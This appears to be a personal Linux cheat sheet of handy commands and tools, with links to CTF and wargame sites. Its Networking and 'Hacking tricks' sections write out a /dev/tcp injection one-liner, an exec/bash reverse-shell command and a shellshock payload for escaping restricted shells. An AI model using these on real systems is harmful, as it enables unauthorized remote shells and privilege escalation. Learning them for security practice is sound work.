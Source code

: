 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## Useful One-Liners

    * Checking md5 sums: 
    For macos:
        `curl -s https://site.com/md5sumfile.md5 && md5 -q /path/to/object`
    For Linux:
        `echo "$(curl -s https://amazon-ecs-cli.s3.amazonaws.com/ecs-cli-linux-amd64-latest.md5) /usr/local/bin/ecs-cli" | md5sum -c -`

## File management
  **`xxd`**
    Create hex dumps

  **`strings`**
    Good for getting readable text out of dumps

  **`uniq`**
    Isolate unique lines in file

  **`diff`**
    Examine file differences. vimdiff better for extensive edits

  **`patch`**
    Apply changes to files

  **`mkfifo`**
    first in first out pipe. 

## Networking
  **`nmap`**
    Port scanning. 

  **`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

  **`telnet`**
    Deprecated, but useful for port testing

  **`openssl`**
    Openssl utility: key management, cert generation, etc.

  **`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

  **`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming

  **`ldconfig`**
    Can see installed libs, etc.

  **`ldd`**
    Useful to find what a program is linked against.

## Hacking tricks

  **shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell

